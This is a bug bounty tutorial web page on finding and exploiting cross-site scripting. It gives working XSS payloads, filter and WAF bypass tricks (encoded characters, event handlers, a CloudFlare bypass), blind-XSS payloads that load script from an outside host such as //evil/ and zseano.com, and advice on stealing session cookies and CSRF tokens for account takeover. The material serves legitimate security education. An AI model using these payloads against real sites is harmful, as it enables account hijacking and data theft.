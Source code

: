 
<p>XSS (known as Cross Site Scripting) is usually the most common and also the most easiest type of vulnerability to find since you are simply looking for your input reflected in the response. What do we mean by this? </p>
<p><b>Imagine this:</b> You are currently on the website URL <code>https://www.example.com/login?return=/home</code>. You notice <code>?return=/home</code> and from checking the <b>source</b> via <code>view-source:https://www.example.com/login?return=/home</code> you confirm <code>/home</code> is reflected as, <code>&lt;script&gt;var return = '/home';&lt;/script&gt;</code>. If you change <b>return</b> to <b>/test</b> and notice it's changed then you've confirmed you can control it. You can simply check <b>every</b> parameter & look for your input in the response. </p>
<img src="https://www.bugbountyhunter.com/assets/img/xssEG.png" style="margin-bottom:15px;">
<p><b>You're looking for parameters that are reflected that <u>you can control</u></b></p>
<p>Next, we need to see if it's actually vulnerable to XSS. We can control the reflection, but we need to cause some impact which means <b>executing our own HTML/JS</b>. An example: If we used a payload such as <code>&lt;/script&gt;&lt;svg/onload=alert(0)&gt;</code> and your payload is reflected as valid HTML then it should show a popup box with "0". This type of vulnerability is called <b>reflective xss</b>. The web application is handling your inputted value and reflecting it on the source. </p>
<img src="https://www.bugbountyhunter.com/assets/img/xssEG1.png" style="width: 90%; margin-bottom:15px;">
<p style="margin-top:45px;"><i class="far fa-info-square text-danger icon-3x"></i> Dont be mistaken and just use <b>Inspect Element</b> when looking for your reflection. Inspect Element will open the DOM, whereas <code>view-source</code> will open the raw HTML. What's the difference? <b>Imagine this:</b>, when viewing <code>/user/settings</code>, one application will simply reflect your information, which can be found in <b>both</b> inspect element and view-source:. <b>But, another web application</b> makes another request to <code>/api/user/settings</code> and appends the response in the DOM. <b>You won't see your information</b> via <code>view-source</code>, but you <b>will</b> via Inspect Element. This is because the data was retrieved from elsewhere and appended. Use both approaches when checking for your reflection. </p>
<img src="https://www.bugbountyhunter.com/assets/img/xssDOM.png" style="margin-bottom:15px;">
<img src="https://www.bugbountyhunter.com/assets/img/xssDOM1.png" style="width: 90%; margin-bottom:15px;">
<p>That's not all with XSS as there are different <i>types</i>. <b>Imagine this:</b> you can signup to your website and you give yourself a display name of <code>&lt;svg/onload=alert(0)&gt;</code> and the website allows you to share posts on your page (like twitter). When posting you notice an "0" javascript alert box. This would be <b>Stored XSS</b> as the web application has stored your input and it's reflected <b>without</b> you needing to use any parameters in the GET/POST request. In the first example we inputted it via the <b>parameter, ?return=</b>, but in this case we <b>saved and stored</b> the input first and then web application reflected it for us.</p>
<p>Those are two examples of XSS and how you are simply looking for your value being reflected as valid HTML. With that said, not every XSS is as straight forward as that as sometimes filters/WAFs are in place to prevent XSS attacks and certain characters are restricted. Let's first explore each XSS type and some scenarios you may discover these.</p>
<p style="margin-top:45px;"><h4><i class="fad fa-arrow-to-right text-warning icon-2x"></i> Different types of XSS</h4>
<ul>
<li style="margin-bottom:25px;"><p>Stored XSS is when the XSS is stored in the websites database and reflected back to users. For example imagine your twitter name. This is stored & displayed to other users.</p>
<p>Check all inputs you can control and save XSS payloads everywhere you can</p></li>
<hr style="background-color:white;">
<li style="margin-bottom:25px;"><p>Reflective XSS is when XSS is reflected in the source via a parameter in the URL/request, either via a GET or a POST request. </p>
<p>Check all parameters/headers (such as Referrer or even User-agent, think web cache poisoning!). Don't forget to fuzz for common parameter names.</p></li>
<hr style="background-color:white;">
<li style="margin-bottom:25px;"><p>DOM XSS is XSS executing from the DOM, usually injected via hash fragments, for example <code>``#q=&lt;svg/onload=alert(0)></code></p>
<p>
Check through javascript files and look for certain sinks known to cause DOM XSS such as <code>document.write()</code>, <code>.innerHTML</code>, <code>jquery.html()</code>. It can also be found if you notice the web application is redirecting via Javascript, such as <code>top.location.href=returnUrl</code>. Using <code>javascript:alert(0)</code> would cause XSS to execute.</p>
<img src="https://www.bugbountyhunter.com/assets/img/xssRedir.png" style="margin-bottom:15px;">
<img src="https://www.bugbountyhunter.com/assets/img/xssRedir1.png" style="margin-bottom:15px;"></li>
<hr style="background-color:white;">
<li style="margin-bottom:25px;">Self XSS is XSS that only affects <b>you</b>. This could be in your account settings that only <b>you</b> can access. For these types of XSS I recommend looking for a cross site request forgery issue on login which you can use in a chain.</li>
<li style="margin-bottom:15px;">Blind XSS is an XSS payload that fires blindly, for example on an admins backend. <b>It doesn't execute for you, but it does for another user (usually employees).</b>. Imagine you have ordered some food and you add on the notes, <code>&lt;script src=//zseano.com/></code> and when the restaurant opens your order, the XSS payload may fire. For this you should host <a href="https://www.xsshunter.com/" rel="noreferrer" target="_blank">XSSHunter</a> yourself on your own instance. It's real simple to setup!</li>
</ul></p>
<p style="margin-top:45px;"><h4><i class="fad fa-arrow-to-right text-warning icon-2x"></i> Input everywhere </h4>
Input xss payloads where-ever possible. Your name, in your email (<code>test+&lt;h2&gt;@test.com</code>), bio. See how it's handled and reflected, is anything stripped/filtered? Don't use the most common <code>&lt;script&gt;</code> as most web applications will filter this and instead start with something "harmless" such as <code>&lt;h2&gt;</code>. This is more likely to work especially if some type of html markdown rendering is being used and you can work on building an XSS payload with impact. Carry on reading to learn more on the flow of testing for XSS.</p>
<p style="margin-top:45px;"><h4><i class="fad fa-arrow-to-right text-warning icon-2x"></i> Discovering parameters </h4>
Apart from looking in your web proxy logs for <b>?parameter=</b> when navigating the web application and seeing the parameters being used are simply right there in front of you you can also discover more by looking in the raw html (<code>view-source:</code>) and the DOM (<code>Inspect element</code>) for things such as <code>&lt;input id='param1' name='param1'></code> and begin building a wordlist to fuzz. For example in this case you'd try <code>param1</code> as a parameter. You can also browse .js files (look for <code>var =</code>) or you can simply brute force commonly known parameter names, such as <code>returnUrl</code>.</p>
<p> <b>I can not stress enough how much large companies re-use code & parameter names across lots of endpoints.</b> </p>
<p style="margin-top:45px;"><h4><i class="fad fa-arrow-to-right text-warning icon-2x"></i> Testing XSS and if there's any filters</h4>
Here is my simple testing methodology when testing for XSS. Each case will help you determine what's being filtered</p>
<code>
<p>&lt;h2> vs &lt;script&gt; - h2 tags are usually not blacklisted. how are both handled?</p>
<p>&lt;script src=//evil/?c= - Are they only looking for complete tags? Notice we don't end the HTML tag and append extra HTML as a parameter!</p>
<p>&lt;/script/x> - The trailing / closing the tag can sometimes break filters. I have high success rate with this.</p>
<p>&lt;&lt;h2>> - may strip the outter &lt; &gt; leaving &lt;h2></p>
<p>&lt;IFRAME> - is it case sensitive?</p>
<p>"onxss= - are they only looking for the most known on{} event handlers? onxss= isn't valid. Does it error when using onerror= but not when onxss=?</p>
</code>
<p>Using the above will give you a clear indication if something is vulnerable to XSS as well as information on what they may be filtering. Now imagine you've determined <code>&lt;h2></code> is reflected, but <code>&lt;script></code> is not, this means we're faced with a filter. We know it's vulnerable to XSS as it reflects our innocent <code>&lt;h2></code> tag, but they're filtering malicious html tags. </p>
<p style="margin-top:45px;"><h4><i class="fad fa-arrow-to-right text-warning icon-2x"></i> Understanding XSS filters</h4>
Firstly, if no matter what payload you use, you always see <code>&amp;lt;script&amp;gt;</code>, <code>%3Cscript%3E</code> then it is not likely to be vulnerable. However, developers like to try introduce filters for various reasons which create XSS opportunities. Instead of preventing HTML payloads altogether via correct sanitisation/encoding, they choose to filter out "malicious" html. Filters can be good sometimes in a way as it means you get to play & try to reverse enigneer the developers thoughts. From understanding how a developer has chosen to filter certain XSS payloads, it can give you an idea for the security throughout (perhaps similar filtering exists on a potential SSRF?). Below are some common cases when testing XSS and how I go about trying to create a working proof of concept (PoC). </p>
<ul style="margin-top:45px; margin-bottom:45px; list-style-type:none;">
<li><p style="color:red"> <img src="https://www.bugbountyhunter.com/assets/img/problem.png"> Problem #1</p>
<p>You use the payload <code>&lt;script>alert(0)&lt;/script></code> and notice only <code>alert(0)</code> is reflected.</p>
<p style="color:green"><i class="fas fa-lightbulb-exclamation text-success icon-2x"></i> What to try</p>
<p>At this point I start asking, <b>are they simply filtering certain html tags?</b>. Trying payloads such as <code>&lt;script src=//</code> (without ending the tag), is <code>&lt;script</code> filtered regardless? In which case, does <code>&lt;notreal></code> (not a real tag, not filtered?) work? You could then use <code>&lt;notreal onpointerrawupdate=alert`0`></code> which executes on Firefox. </p></li>
<hr style="background-color:white;">
<li><p style="color:red"><img src="https://www.bugbountyhunter.com/assets/img/problem.png"> Problem #2</p>
<p>You use the payload <code>&lt;script>alert(0)&lt;/script></code> and notice <code>&amp;lt;script&amp;gt;alert(0)&amp;lt;/script&ampgt;</code> is reflected.</p>
<p style="color:green"><i class="fas fa-lightbulb-exclamation text-success icon-2x"></i> What to try</p>
<p>It is perhaps unlikely this parameter will be vulnerable to XSS, however do not rule it out. Test for different encodings such as <code>%3Cscript%3Ealert(0)%3C%2Fscript%3E</code> as the filter may be looking for <code>&lt;</code>, but encoding bypasses the checks. You can also try providing <code>&lt;</code> yourself (but encoded, so <code>%26lt%3Bscript%26gt%3Balert(0)%26lt%3B%2Fscript%26gt%3B</code>). The server may process it as valid HTML on response.</p>
</li>
<hr style="background-color:white;">
<li><p style="color:red"><img src="https://www.bugbountyhunter.com/assets/img/problem.png"> Problem #3</p>
<p>The response only contains part of the payload, for example <code>">&lt;script>alert(0)&lt;/script></code> only returns <code>">&lt;script></code>
<p style="color:green"><i class="fas fa-lightbulb-exclamation text-success icon-2x"></i> What to try</p>
<p>First things first, we know they don't filter XSS here, however this can be quite tricky to bypass as it all depends on where it is returned and if you can control anything else. In the past i've had a case where I able to signup using XSS in my first and last name and whenever I commented on a post my name would render the HTML set in the first name, but I was stuck to a limited number of characters so the working method was to setup three accounts with the following names:</p>
<p>Account One: <code> &lt;script>/*</code>. This starts a script tag and multi-comments out everything below
<br>
Account Two: <code>could be set to anything.</code>
<br>
Account Three: <code>*/&lt;/script></code>. This ends the multi comment tag and also the script tag.
</p>
Firstly, account <b>THREE</b> posts first since newest comments are at top. <br>
Next, account <b>TWO</b> posts the payload to be executed by posting the following comment: <code>*/ alert(0) /*</code>. <br>
Lastly we leave a comment with account <b>ONE</b>. </p>
<p>Because account <b>ONE</b>'s name is reflected first with the name <code>&lt;script>/*</code>, this starts the script tag, comments out everything below because of <code>/*</code>, until it gets to my comment wich ends the multi-comment and executes alert(0). Account <b>THREE</b> then ends the multi-comment and ends the script tag. There we have 3 chained payloads to achieve stored XSS and a nice payout!</p>
<p> When you have limited characters available you <b>need</b> to get creative & see what options you have available.
</p></li>
<hr style="background-color:white;">
<li><p style="color:red"><img src="https://www.bugbountyhunter.com/assets/img/problem.png"> Problem #4</p>
<p>The payload <code>">&lt;script>alert(0)&lt;/script></code> only returns <code>"scriptalert(0)/</code> and strips everything else.</p>
<p style="color:green"><i class="fas fa-lightbulb-exclamation text-success icon-2x"></i> What to try</p>
<p>We don't always need the &lt; tag to get XSS. As long as it's reflected on a HTML tag (<code>&lt;input value="ourinput"></code>) and you can control <b>some</b> characters such as <code>'</code> and <code>"</code> then we should be able to use any of the following payloads: <code>"onfocus="alert(0)" k="`</code>, <code>"onmouseover=alert(0)</code>, <code>"onmousenter="alert(0)" k="</code>, It would be reflected as <code>&lt;input value=""onmouseover=alert(0)></code> which would be valid HTML. You can find a list of event handlers from <a href="https://www.w3schools.com/jsref/dom_obj_event.asp" target="_blank">http://www.w3schools.com/jsref/dom_obj_event.asp</a>.</p>
<p>One common problem researchers find is when <code>on{}</code> is blacklisted/filtered. It all depends on where it is reflected but I find trying the payload <code>onxss=</code> can determine if they are filtering <code>on*</code>, or if just something like <code>onfocus=</code> is blacklisted. </p>
<p>For the first one I recommend trying things like <code>on%0dmouseover=</code> (you can also use <code>%09</code>, <code>%0C</code>, <code>%00</code> here), <code>"onmouseover%3D</code>, <code>onmouseover=alert(0)"=</code> (I had an experience where a WAF would allow for anything aslong as the payload ended in <code>=</code>). However, if it's the latter then I recommend running through the list above.</p>
</li></ul>
<hr style="background-color:white;">
<p><h4><i class="fad fa-arrow-to-right text-warning icon-2x"></i> Beating WAFs</h4>
<p>The last peice of advice i'd like to give researchers faced with a filter/waf when hunting for XSS is to remember the WAF is typically just looking for certain strings. It might even be running on a blacklist and by using things like <code>"%0d"</code> (for example <code>&lt;svg%0donload=prompt(1)></code>), it can sometimes bypass it and render your XSS. Understand what the filter is looking for and start fuzzing/testing. I've noticed <code>java%09script:</code> will bypass CloudFlare WAF in certain cases.
</p>
<p style="margin-top:45px;"><h4><i class="fad fa-arrow-to-right text-warning icon-2x"></i> Creating impact</h4>
Sometimes bug bounty programs will reward more if a proof of concept is provided with your XSS, rather than using <code>alert(0)</code>. Some examples for creating impact can be seen below.
<ul>
<li>
<p>Leaking sensitive cookies</p>
<p>If the <code>session=</code> cookie doesn't have HTTPOnly protection then your XSS will be able to access this and you'll be able to potentially achieve account takeover. Test using the leaked session cookie on a fresh browser session and see if you authenticate!</p>
</li>
<li>
<p>Obtaining CSRF tokens to perform an action</p>
<p>Can you change their email without any confirmation? Try perform an action which will result in you compromising the users account via your XSS. This will help create higher impact for your bug bounty reports</p>
</li>
<li>
<p>Leaking sensitive information</p>
<p>Remember, XSS is running on your target domain, this means you have access to <code>.domain.com</code>. An example would be using a "weak" CORS filter which allows for <code>*.domain.com</code>. An example of this can be found on this Apple XSS which was used to leak sensitive PII information - <a href="https://zseano.medium.com/finding-xss-on-apple-com-and-building-a-proof-of-concept-to-leak-your-pii-information-d7bc93cff2df" target="_blank" rel="noreferrer">https://zseano.medium.com/finding-xss-on-apple-com-and-building-a-proof-of-concept-to-leak-your-pii-information-d7bc93cff2df</a> </div>
<div class="col-5">
<div class="alert alert" style="  margin-bottom:30px;  padding-top: 15px;
    border: 3px solid white;
    background: linear-gradient( 
0deg
 , black, #444444);
    border: 4px solid orange;
    box-shadow: 0 2px 10px rgb(4 4 4), 0 10px 10px rgb(0 0 0);" role="alert">
<h4 class="alert-heading">
<i class="fas fa-lightbulb-on text-warning icon-3x"></i>&nbsp Tip from @zseano
</h4>
<hr style="background-color:white;">
<p><p>Test every parameter/header with a blind XSS payload as you have <strong>no idea</strong> how they handle it on the backend. They may log referrers on resetting a password, or user-agents for security reasons. Inject everywhere!</p></p>
</div>
<hr style="background-color:white">
<iframe width="100%" height="415" src="https://www.youtube.com/embed/jtFlbUUKL1Y" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" style="margin-bottom:10px;" allowfullscreen></iframe>
<div style="margin-bottom: 30px;
          padding: 15px 15px 15px 15px;
    margin-top: 15px;
    background: linear-gradient( 
0deg
 , black, #444444);
    border: 4px solid #19a1ff;
    box-shadow: 0 2px 10px rgb(4 4 4), 0 10px 10px rgb(0 0 0);">
<h4><i class="fad fa-code text-info icon-3x"></i> Test your knowledge with BugBountyHunter Challenges</h4>
<hr style="background-color:white;">
<p>
<ul style="list-style:none;">
<li style="margin-bottom:10px;"><span style="margin-right:10px; font-size:18px;" class="badge badge-success">Easy</span> <a href="https://www.bugbountyhunter.com/challenge?id=1">Can you find any XSS? No HTML tags allowed!</a></li>
<li style="margin-bottom:10px;"><span style="margin-right:10px; font-size:18px;" class="badge badge-success">Easy</span> <a href="https://www.bugbountyhunter.com/challenge?id=2">Change the class of our image and pick your favourite! </a></li>
<li style="margin-bottom:10px;"><span style="margin-right:10px; font-size:18px;" class="badge badge-info">Medium</span> <a href="https://www.bugbountyhunter.com/challenge?id=6">This strict URL filter should prevent XSS, right?</a></li>
<li style="margin-bottom:10px;"><span style="margin-right:10px; font-size:18px;" class="badge badge-success">Easy</span> <a href="https://www.bugbountyhunter.com/challenge?id=8">Can you find any XSS on this &quot;harmless&quot; page?</a></li>
<li style="margin-bottom:10px;"><span style="margin-right:10px; font-size:18px;" class="badge badge-info">Medium</span> <a href="https://www.bugbountyhunter.com/challenge?id=11">&quot;I've won a bounty&quot; generator</a></li>
</p>
</ul></p><
<div style="margin-bottom: 30px;
          padding: 15px 15px 15px 15px;
    margin-top: 15px;
    background: linear-gradient( 
0deg
 , black, #444444);
    border: 4px solid #5cdbb7;
    box-shadow: 0 2px 10px rgb(4 4 4), 0 10px 10px rgb(0 0 0);">
<h4><i class="fas fa-toolbox text-primary icon-3x"></i> Resources </h4>
A list of useful websites, blog posts, reports tools to help you.
<hr style="background-color:white;">
<ul>
<li><a href="https://d3adend.org/xss/ghettoBypass" target="_blank">ghettoXSS Payload list</a></li>
<li><a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection" target="_blank" rel="noreferrer">swisskyrepo/PayloadsAllTheThings</a></li>
<li><a href="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" target="_blank" rel="noreferrer">PortSwigger XSS Cheatsheet</a>
</li>
<li><a href="https://www.bugbountyhunter.com/hackevents/report?id=219" target="_blank">Report: XSS via Javascript:</a></li>
<li><a href="https://www.bugbountyhunter.com/hackevents/report?id=78" target="_blank">Report: Using XSS for account takeover</a></li>
</ul>
</p>
